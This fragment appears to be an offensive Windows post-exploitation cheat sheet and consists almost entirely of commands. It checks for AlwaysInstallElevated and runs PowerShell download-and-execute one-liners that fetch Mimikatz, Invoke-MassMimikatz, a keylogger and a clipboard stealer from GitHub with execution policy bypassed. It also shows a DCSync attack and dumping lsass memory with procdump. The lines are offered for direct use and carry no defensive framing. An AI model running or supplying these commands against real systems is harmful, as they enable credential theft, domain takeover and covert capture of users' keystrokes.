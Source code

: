 ## Check always install elevated
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer


# Mimikatz
## Invoke Mimikatz
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"

## Import Mimikatz Module
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')"

## Perform DcSync attack
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:demodomain /user:sqladmin"'

## Invoke-MassMimikatz
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PewPewPew/Invoke-MassMimikatz.ps1');'$env:COMPUTERNAME'|Invoke-MassMimikatz -Verbose"

## Manual Procdump for offline mimikatz
.\procdump.exe -accepteula -ma lsass.exe lsass.dmp


# Useful Scripts/Commands
## Use Windows Debug api to pause live processes
powershell.exe -nop -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/besimorhino/Pause-Process/master/pause-process.ps1');Pause-Process -ID 1180;UnPause-Process -ID 1180;"

## Import Powersploits invoke-keystrokes
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Get-Keystrokes.ps1')"

## Import Empire's Get-ClipboardContents
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/collection/Get-ClipboardContents.ps1')"
